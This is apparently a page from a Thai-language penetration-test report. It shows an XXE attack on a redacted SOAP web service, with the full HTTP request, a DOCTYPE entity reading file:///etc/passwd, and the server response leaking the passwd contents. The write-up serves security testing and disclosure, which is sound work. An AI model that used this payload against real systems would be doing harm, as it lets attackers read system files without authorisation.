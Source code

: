 \begin{lstlisting}[numbers=none] 
POST /wsgw/services/[REDACTED]SecureService HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
SOAPAction: urn:MSG
Content-Type: text/xml;charset=UTF-8
Host: [REDACTED]
Content-Length: 7973

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="http://[REDACTED]/webservice">
<soapenv:Header/>
<soapenv:Body>
<web:MSG>
<web:[REDACTED]><![CDATA[

<@\textcolor{red}{<!DOCTYPE doc [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>}@>

<Service value="Export">
<CorpName>[REDACTED]</CorpName>
<CorpId>&xxe;</CorpId>
<MessageType>14</MessageType>
<ReqUId>SECTEST\_20190916008</ReqUId>
<Data>
[...]  
</Data>
</Service>
]]></web:[REDACTED]>
</web:MSG>
</soapenv:Body>
</soapenv:Envelope>
\end{lstlisting}

และผลลัพธ์ที่ได้คือข้อมูลภายในไฟล์ /etc/passwd

\begin{lstlisting}[numbers=none] 
HTTP/1.1 200 OK
Date: Thu, 26 Sep 2019 11:14:01 GMT
Server: JBoss-EAP/7
X-Frame-Options: SAMEORIGIN
X-Powered-By: Undertow/1
Content-Type: text/xml;charset=UTF-8
Content-Length: 4758
Connection: close

<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><MSGResponse xmlns="http://[REDACTED]/webservice" xmlns:ns2="http://[REDACTED]/xsd"><return><ns2:bankCode></ns2:bankCode><ns2:bankName></ns2:bankName><ns2:commercialInvoiceNo></ns2:commercialInvoiceNo><ns2:companyCode>root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
avahi-autoipd:x:170:170:Avahi IPv4LL Stack:/var/lib/avahi-autoipd:/sbin/nologin
systemd-bus-proxy:x:999:997:systemd Bus Proxy:/:/sbin/nologin
systemd-network:x:998:996:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:997:995:User for polkitd:/:/sbin/nologin
libstoragemgmt:x:996:993:daemon account for libstor-agemgmt:/var/run/lsm:/sbin/nologin
abrt:x:173:173::/etc/abrt:/sbin/nologin
[...]
\end{lstlisting}

